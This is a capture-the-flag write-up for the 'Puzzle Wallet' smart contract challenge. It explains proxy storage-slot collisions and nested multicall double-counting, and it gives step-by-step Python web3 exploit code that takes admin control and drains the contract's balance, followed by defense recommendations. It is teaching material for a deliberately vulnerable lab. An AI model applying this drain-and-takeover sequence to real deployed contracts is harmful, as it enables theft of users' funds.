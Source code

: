# 🧩 Level 24: Puzzle Wallet
> **Difficulty**: Very Hard  
> **Category**: Proxy patterns, delegatecall, storage collision, MultiCall Abuse

## 🔍 Challenge Overview

In this challenge, we exploit storage slot collisions and delegatecall behavior in a proxy pattern to take over ownership of a contract and drain its balance. This is a test of both your smart contract fundamentals and understanding of upgradeable proxy mechanics.

---
## 📜 Contract Summary
We are provided with two contracts:

### `PuzzleProxy` (inherits from `UpgradeableProxy`)
- Holds pendingAdmin and admin in storage slots 0 and 1.
- Implements a fallback that delegatecalls to the implementation contract (initially PuzzleWallet).

### `PuzzleWallet`
- Holds owner and maxBalance in slots 0 and 1.
- Has whitelisted and balances mappings.
- Has a multicall(bytes[]) function that allows batching calls, and uses delegatecall internally.

> Due to storage layout overlap, changing owner in PuzzleWallet affects pendingAdmin in PuzzleProxy, and maxBalance overlaps with admin.

---
## 🧠 Strategy Summary
- Whitelist yourself to be able to deposit.
- Exploit `multicall()` to call `deposit()` twice with a single msg.value, tricking the contract into crediting double.
- Drain funds using execute().
- Overwrite storage slot 0 with your address using setPendingAdmin() (via setMaxBalance()).
- Call `proposeNewAdmin()` to match slot 0 and 1, making you the final admin.
---
## 🛠️ Step-by-Step Attack Plan
```python
# Step 1: become owner
send_tx(proxy.functions.proposeNewAdmin(player))
```
```python
# Step 2: Add ourselves to whitelisted
send_tx(puzzle_wallet.functions.addToWhitelist(player))
```
```python
# Step 3: Encode inner deposit call
# We can't setMaxBalance, as address(this).balance != 0, so we should use multicall and batch transactions
inner_call = puzzle_wallet.functions.deposit().build_transaction({
    'gas': 100000,
    'value': w3.to_wei(0.001, 'ether'),
    'from': player
})['data']
```
```python
# Step 4: Encode inner multicall with just [deposit()]
inner_multicall = puzzle_wallet.functions.multicall([inner_call]).build_transaction({'gas': 200000})['data']
```
```python
# Step 5: Outer multicall: contains both deposit() and multicall([deposit()])
outer_multicall = puzzle_wallet.functions.multicall([
    inner_call, inner_multicall
]).build_transaction({'gas': 300000})['data']
# Now outer_multicall is your final calldata.
receipt = send_tx({
    'to': proxy.address,
    'value': w3.to_wei(0.001, 'ether'),
    'gas': 1_000_000,
    'gasPrice': w3.eth.gas_price,
    'data': outer_multicall
}, build=False)
```
```python
# Step 6: run execute to drain proxy contract balance
send_tx(puzzle_wallet.functions.execute(player, balance, b''))  # b'' # empty bytes for data
```
```python
# Step 7: call setMaxBalance to become admin, it shares same slot 1
max_balance_value = int(player, 16)  # Convert address string to integer
send_tx(puzzle_wallet.functions.setMaxBalance(max_balance_value))
```
Please check `solution_puzzle.py`. It is mostly self-explanatory

---
### 🧠 Key Takeaways
- Proxy and logic contracts share the same storage via delegatecall, so layout matters.
- Nested delegatecalls can trick accounting logic (e.g., double counting balance).
- Avoid storage slot collisions by reserving storage in proxy patterns.
- Always validate user input and enforce idempotency in batch functions.
---
### 🛡️ Defense Recommendations
- Never reuse storage slots between proxy and implementation contracts
- Enforce single-entry on multicall() to prevent reentrancy
- Ensure that proxy-specific variables are isolated, e.g. use EIP-1967 reserved slots
- Add robust access control checks on all critical setters
---
## ✍️ Author

defi-dojo – A curated collection of real-world smart contract exploit simulations, automated testing, and in-depth technical writeups.

Created and maintained with ❤️ by [yprakash](mailto:yprakash.518@gmail.com).